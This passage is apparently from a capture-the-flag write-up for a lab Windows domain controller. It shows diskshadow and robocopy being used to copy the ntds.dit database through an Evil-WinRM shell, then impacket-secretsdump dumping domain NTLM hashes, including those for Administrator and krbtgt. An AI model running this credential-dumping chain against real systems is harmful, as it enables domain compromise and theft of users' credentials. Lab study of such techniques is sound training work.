 - Creating a script and upload it to the machine:

```bash
*Evil-WinRM* PS C:\temp> diskshadow /s backup.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  7/26/2025 5:02:33 PM

-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Alias cdrive for shadow ID {a623f711-6961-4ae9-b1f8-acfd87b4d07b} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {6e89039e-6181-4c1e-8c2a-4c352dd6f85a} set as environment variable.

Querying all shadow copies with the shadow copy set ID {6e89039e-6181-4c1e-8c2a-4c352dd6f85a}

        * Shadow copy ID = {a623f711-6961-4ae9-b1f8-acfd87b4d07b}               %cdrive%
                - Shadow copy set: {6e89039e-6181-4c1e-8c2a-4c352dd6f85a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]
                - Creation time: 7/26/2025 5:02:51 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: BabyDC.baby.vl
                - Service machine: BabyDC.baby.vl
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent Differential

Number of shadow copies listed: 1
-> expose %cdrive% E:
-> %cdrive% = {a623f711-6961-4ae9-b1f8-acfd87b4d07b}
The shadow copy was successfully exposed as E:\.
-> end backup
->
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit

```

- Download ntds.dit
- Use the ntds for getting all hashes from all users

### Getting root flag
```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# impacket-secretsdump -sam sam.hive -system system.hive -ntds ntds.dit LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:37e9ff90455e56e0645874ff5b72b63c:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
```